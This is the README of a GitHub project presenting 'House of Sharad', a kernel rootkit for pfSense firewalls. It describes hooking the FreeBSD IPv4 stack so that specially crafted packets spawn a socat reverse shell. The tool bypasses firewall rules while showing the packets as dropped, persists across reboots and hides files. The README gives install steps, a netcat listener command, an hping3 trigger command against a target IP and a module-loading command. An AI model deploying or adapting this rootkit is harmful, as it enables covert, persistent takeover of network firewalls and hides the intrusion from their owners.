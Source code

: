 # House of Sharad - pfSense Rootkit

## 🚀 Overview

House of Sharad is a pfSense rootkit that hooks into the IPv4 stack of the FreeBSD kernel, allowing for stealthy reverse shells by detecting specially crafted packets.

## 🔥 Huge Thanks

First and foremost, a massive thank you to my friend Sharad (mineo333) for helping implement the core functionality of forking a process and executing kern_execve() in the child. This is what enables command execution when a packet with a specific source port is detected. This rootkit wouldn't be possible without his help.

Additionally, the file-hiding functionality is directly borrowed from BlueDragonSecurity's (bluedragonsecurity) bsd_freebsd project. Huge thanks for this work!

## 📌 Compatibility

The precompiled .ko files are mainly compatable with pfSense 2.7.2 CE but have also worked for pfSense 2.7.1 CE.

If you need to compile them yourself, you must do so within a pfSense environment (not just a compatible FreeBSD kernel).

Follow the setup guide: extra/how_to_setup_pfsense_to_compile.txt.

## 🛠️ Features

✅ Hooks into pfSense’s IPv4 stack for stealthy reverse shell execution

✅ Bypasses firewall rules (even if attacker IP/port is blocked) while showing malicous incoming packets as dropped

✅ Persistance accorss reboots and unloading

✅ File hiding functionality

✅ Uses socat for reliable reverse shells (pfSense’s nc lacks reverse shell support)

## 🏗️ Installation

### 1️⃣ Cloning and Setup

### Clone the repository
git clone https://github.com/Mon-keyBoy/house_of_sharad.git
```cd house_of_sharad```

### Set execution permissions
```chmod +x load_and_setup.sh```

### Run the setup script
```./load_and_setup.sh```

Once the script completes, you'll be inside a ghost /house_of_sharad directory. To return to root, run:

```cd /```

## 🛡️ Getting a Reverse Shell

### 1️⃣ Start a Listener

On your attacking machine, open a terminal and start a listener:

```nc -lvnp 7000```

### 2️⃣ Trigger the Reverse Shell

In another terminal, send packets that will activate the rootkit:

```sudo hping3 -S -p 80 -s 6969 <TARGET_IP>```

🔹 Port 80 is a good choice for the destination port.
🔹 If the shell doesn’t connect after ~5 packets, press Ctrl + C and re-run the command (packet filtering can be finicky).

## 🧩 Additional Notes

Persistence: This rootkit is loaded via apeshit.sh upon boot, which is setup by load_and_setup.sh.

Extra Fun: The extra/ directory contains a simple LKM that prints a face endlessly to the terminal (input still works, but it scrolls rapidly). To stop it, simply unload the module, this is also finickey and the texct might just appear in kernel logs instead (this happened in pfSense 2.7.1 CE but it worked as intended in pfSense 2.7.2 CE).

### Loading It

```kldload /boot/modules/.evil/evil.ko```

# ⚠️ Disclaimer: This project is for educational and research purposes only. Unauthorized use may be illegal. The author takes no responsibility for misuse.

